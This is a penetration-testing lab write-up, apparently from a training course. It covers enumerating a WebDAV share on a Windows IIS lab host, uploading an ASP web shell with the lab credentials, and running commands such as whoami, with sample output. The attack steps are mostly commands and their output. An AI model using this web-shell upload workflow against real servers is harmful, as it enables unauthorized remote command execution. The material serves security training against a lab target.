 ### Lab: Complete WebDAV Exploitation on Windows IIS

**Scenario:** End-to-end WebDAV exploitation from discovery to system access
- **Target:** http://demo.ine.local/webdav
- **Platform:** Windows IIS Server 10.0
- **Authentication:** bob:password_123321
- **Objective:** Achieve remote command execution and system information gathering

#### Phase 1: Initial Discovery (Previous Steps)
```bash
# Service discovery
nmap demo.ine.local
nmap --script http-enum -sV -p 80 demo.ine.local

# WebDAV testing
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav

# Manual file upload
cadaver http://demo.ine.local/webdav
put /usr/share/webshells/asp/webshell.asp
```

#### Phase 2: Web Shell Access and Command Execution

**Step 1: Initial Web Shell Access**
```bash
# Access URL: http://demo.ine.local/webdav/webshell.asp
# Authentication: bob:password_123321
```

**Expected Lab Interface:**
```
Web Shell Interface with command input field
- Server Information Display
- Command execution capability
- File system access
```

**Step 2: System Information Gathering**
```bash
# Execute whoami command
Command: whoami
```

**Expected Lab Output:**
```
\\DOTNETGOAT\\bobdemo.ine.local

The server's port:
80

The server's software:
Microsoft-IIS/10.0

The server's local address:
10.0.31.40
```
